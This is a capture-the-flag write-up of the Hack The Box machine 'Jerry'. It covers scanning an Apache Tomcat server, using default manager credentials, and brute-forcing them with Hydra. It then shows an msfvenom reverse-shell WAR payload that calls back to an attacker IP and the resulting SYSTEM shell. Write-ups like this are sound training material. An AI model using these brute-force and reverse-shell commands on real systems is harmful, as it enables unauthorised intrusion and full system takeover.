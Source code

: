 ```yaml
---
title: HTB:Jerry
date: 2025-01-20 04:01 +0000
categories: [Write Ups, Boxes]
tags: [red-team-pathway difficulty:easy]     # TAG names should always be lowercase
---
```


# Overview: 
Jerry is a very easy box that involves finding an Apache Tomcat server and exploiting **Tomcat Web Application Manager** with weak credentials.
We then upload a malicous `.WAR` file to gain a system reverse shell and access to `user` and `root` flags. 
# **Reconnaissance**:
### Nmap:
We will get started as always with an `nmap` scan. 
```bash
sudo nmap -sC -sV -oA ~/htb/boxes/Jerry/nmap 10.10.10.95
...SNIP...
Nmap scan report for 10.10.10.95
Host is up (0.095s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

...SNIP...

```
Running `nmap` we see just one port open on `8080`. This port is running an `Apache Tomcat` webserver version:`7.0.88`.

## Web Enumeration:

Navigating over to `10.10.10.95:8080` we get what appears to be a default webpage.

![image.png](assets/img/Jerry/image.png)
_Default install of tomcat_

Poking around on the app, we see that `Server Status`, `Manager App`, `Host Manager` require a `username:password`

![image.png](assets/img/Jerry/image_1.png)

Testing the default credentials of `admin:admin` we gain access to the `Server Status` page. Looking around, there doesn’t seem to be any vector to exploit. 

![image.png](assets/img/Jerry/image_2.png)

Googling around for other default credentials doesn’t seem to net much, but if we observe the `403 - Access Denied` page when attempting to access `Manager App`, we get the following:

![image.png](assets/img/Jerry/image_4.png)
_Suggestion of the `manager` role with the username : password pair of `tomcat:s3cret`_

Trying these credentials, we get access to the *Tomcat Web Application Manager page.* 

![image.png](assets/img/Jerry/image_5.png)

> In most cases (_we hope_) credentials will not be so easily accessible. To circumvent this, we may need to brute-force the password. 
{: .prompt-tip }

### Bruteforcing:

#### Burpsuite:
We notice capturing the request to `http://10.10.10.95:8080/manager/html` that we have the `Authorization` header, which is a `Base64 encoded` value of the `username:password` that is entered. In this case, we don’t get access with value of `admin:admin`.

![image.png](assets/img/Jerry/image_3.png)

Using this knowledge of the request, we are now informed as to where to direct out brute-forcing attempt. 

#### Hydra:

Using hydra, we find the password `tomcat:s3cret`.

```bash
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
#-C FILE   colon separated "login:pass" format

...SNIP...
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret

```


# **Exploitation:**

## Web Exploitation:

In the **Tomcat Web Application Manager,** we see that we can upload and WAR files.

![image.png](assets/img/Jerry/image_6.png)

> A WAR (Web Application Archive) file allows developers to package all the components of a Java-based web application, including code, configuration, and static resources, for deployment on a web server or application server.
{: .prompt-info }


### Creating malicious WAR file:
We use will `msfvenom` to craft an exploit:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=8888 -f war -o upload.war
```
> #### Switches:
- `p java/jsp_shell_reverse_tcp`: Specifies the payload (a reverse shell using Java Server Pages).
- `LHOST=`: Your machine's IP address (for the reverse shell to connect back).
- `LPORT=`: The port on your machine to receive the reverse shell.
- `f war`: Specifies the output format as a WAR file.
- `upload.war`: Output file name.
{: .prompt-info }

### Getting shell:
Navigating to `http://10.10.10.95:8080/upload/`
![image.png](assets/img/Jerry/image_7.png)
_Upload displayed on GUI_


```shell
nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
### Flags:
We have shell as system, so `user` and `root` flags are easy to get:
```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,450,302,464 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,450,171,392 bytes free

C:\Users\Administrator\Desktop\flags>type 2*
type 2*
2 for the price of 1.txt

user.txt
7004dbce...SNIP...

root.txt
04a8b36e...SNIP...

```

